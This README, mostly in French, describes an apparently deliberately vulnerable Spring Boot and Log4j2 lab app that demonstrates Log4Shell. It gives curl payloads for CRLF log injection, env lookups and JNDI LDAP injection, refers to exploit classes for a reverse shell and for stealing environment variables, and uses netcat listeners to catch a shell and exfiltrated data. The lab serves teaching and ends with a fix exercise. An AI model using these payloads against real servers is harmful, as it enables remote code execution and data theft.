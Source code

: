 # Log Injection with Spring Boot and Log4J2

## Description

Exemple d'application java vulnérable à l'attaque [Log4Shell](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/).

Le repo contient :
- Une application Java **DemoApplication** vulnérable (plus particulièrement la classe *HelloController.java*)
- Des fichiers (`evil/ldap/`) permettant d'attaquer l'application *DemoApplication* :
  - **marshalsec\*.jar** : permet de simuler un serveur LDAP qui sera utilisé pour injecter le code malveillant dans l'application
  - plusieurs classes de code malveillant (à compiler), permettant chacune une attaque différente :
    - **OpenKeyPassExploit.java** : attaque permettant de lancer l'application OpenKeyPass (il faut donc qu'elle soit installée sur le poste)
    - **ReverseShellExploit.java** : attaque permettant de lancer un _reverse shell_
    - **StealEnvUserNameExploit.java** : attaque permettant de récupérer les variables d'environnement de l'utilisateur
  - **server.py** : serveur python multi-threads permettant de lancer un serveur LDAP (Marshalsec) ainsi qu'un serveur web (pour héberger les classes malveillantes : _OpenKeyPassExploit_, _ReverseShellExploit_ ou _StealEnvUserNameExploit_)
- Un serveur python **receiver/server.py** permettant de **recevoir** les informations sur le port **8001** (par exemple pour l'attaque _StealEnvUserNameExploit_), mais peut être remplacé par une commande _netcat_.

## Usage

Testé avec Java 17.

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py # ou : nc -lv 8001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lv 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

## Fix
Try to fix this app! Don't disable JNDI Lookup, this could be usefull.
